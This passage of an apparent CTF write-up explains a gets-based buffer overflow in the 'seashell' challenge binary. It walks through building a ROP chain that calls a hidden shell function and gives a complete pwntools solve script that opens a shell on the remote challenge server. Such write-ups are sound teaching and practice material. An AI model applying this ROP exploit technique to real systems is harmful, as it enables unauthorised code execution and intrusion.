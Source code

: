 ```c
  }
  else {
    puts("why are you even here?");
  }
  return 0;
}
```
Here we have a classic buffer overflow vulnerability because of the gets which let's us overflow the local_12 buffer. Looking at the other functions in the binary, there is function called `shell`. Here is the decompilation of that function:
```c
void shell(long param_1)

{
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}
```
So now our goal is obvious, call the shell function with `param_1 == 0xDEADCAFEBABEBEEF` and get a shell on the system. How can we accomplish this? The first step is taking note that this is a 64 bit binary. That means the values are passed in through the registers. Specifically, the order from first to last is `rdi, rsi, rdx, rcx, r8, and r9`.  This means we need to get the value `-0x2152350145414111` into the rdi register. In order to do this we need a simple rop chain. It should be layed out like the following: pop rdi, `0xDEADCAFEBABEBEEF`, shell. In order to find the pop rdi gadget, I use a tool called ROPGadget. By running the command `ROPGadget --binary seashell | grep pop` I see that there is a `pop rdi; ret` gadget at `0x0000000000400803` which I will use. The only information we need now to complete our exploit is the offset to the RIP register. I've explained this in a previous blogpost but essentially for 64 bit binaries, we use the `cyclic(512)` function from pwntools to generate a specific sequence, then cause the program to segfault. Then by plugging in the value from RSP into `cyclic_find`, we get the offset to RIP. Here is the final solve script putting it all together. You will notice an additional ret gadget which does not seemingly have a use. However, in 64 bit binaries there may be a problem with stack alignment so if your exploit seemingly should work but it just isn't, try adding a ret gadget as the first step of the ropchain.
```python
from pwn import *  
  
context.terminal = ['tmux', 'split', '-h']  
context.log_level = 'debug'  
  
r = remote('p1.tjctf.org', 8009)  
#r = process('./seashell')  
#gdb.attach(r)  
  
pop_rdi = 0x0000000000400803  
ret = 0x000000000040057e  
  
r.recv()  
r.recv()  
  
payload = "A" * 18 + p64(ret) + p64(pop_rdi) + p64(0xDEADCAFEBABEBEEF) + p64(0x00000000004006c7)  
  
r.sendline(payload)  
  
r.interactive()
```
